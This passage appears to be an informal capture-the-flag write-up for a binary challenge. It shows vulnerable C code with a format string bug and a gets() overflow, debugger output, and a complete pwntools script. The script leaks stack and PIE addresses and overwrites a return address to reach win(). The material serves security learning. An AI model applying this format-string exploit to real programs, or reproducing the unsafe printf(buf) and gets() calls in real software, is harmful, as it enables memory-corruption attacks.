 ```c {hl_lines=[19,32]}

		printf("You said > ");
		printf(buf);
		printf("> ");
		fflush(stdout);
	}
}

int main(){
	parrot();

	char buf[0x30];
	printf("anything left to say?\n> ");
	fflush(stdout);
	getchar();
	gets(buf);
	printf("You said > %s", buf);
	fflush(stdout);
	return 0;
}
```
clearly theres a format string vuln in parrot, and a buffer overflow in main\
but uhh i kinda forgot the latter existed so lmfao

we can leak stack addr, pie with `%40$p`, `%41$p`\
breakpoint right before parrot returns:
```zsh {hl_lines=2}
 RBP  0x7fffffffc640 —▸ 0x7fffffffc6e0 —▸ 0x7fffffffc740 ◂— 0
 RSP  0x7fffffffc5f8 —▸ 0x55555555536c (main+37) ◂— lea rax, [rip + 0xd26]
 RIP  0x555555555346 (parrot+224) ◂— ret
```
rsp stores our return address, so we wanna overwrite `0x7fffffffc5f8` with our win addr
```py
from pwn import *
context.binary = elf = ELF('./chal')

r = remote('chal.ctf.scint.org', 10103)

r.sendlineafter(b'> ', b'%40$p.%41$p')
r.recvuntil(b'> ')
leaks = r.recvuntil(b'> ').split()[0].strip().split(b'.')
stack_leak = int(leaks[0], 16)
pie_leak = int(leaks[1], 16)

pie_base = pie_leak - 0x136c
win_addr = pie_base + 0x1229
target_ret_addr = stack_leak - 0x48

log.info(f'pie leak: {hex(pie_leak)}')
log.info(f'stack leak: {hex(stack_leak)}')
log.info(f'pie base: {hex(pie_base)}')
log.info(f'win() addr: {hex(win_addr)}')
log.info(f'target ret addr: {hex(target_ret_addr)}')

payload = fmtstr_payload(6, { # our input starts showing up at offset 6
    target_ret_addr: win_addr
}, write_size='short') #yeah

r.sendline(payload)
r.recvuntil(b'> ')
r.sendline(b'exit')

r.interactive()
```